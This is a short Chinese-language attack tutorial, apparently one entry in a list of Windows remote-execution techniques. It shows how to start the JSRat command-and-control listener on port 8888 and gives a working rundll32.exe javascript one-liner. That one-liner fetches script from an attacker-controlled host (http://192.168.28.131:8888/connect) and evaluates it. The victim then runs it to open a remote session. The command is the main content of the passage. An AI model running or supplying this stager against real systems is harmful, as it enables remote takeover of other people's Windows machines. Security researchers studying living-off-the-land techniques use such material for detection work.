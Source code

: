 **12、rundll32**

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git

步骤一：开始运行JSRat，监听本地8888端口。

![](./image/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![](./image/20200413-12-2.png)

复制代码如下：

~~~
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
~~~

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![](./image/20200413-12-3.png)
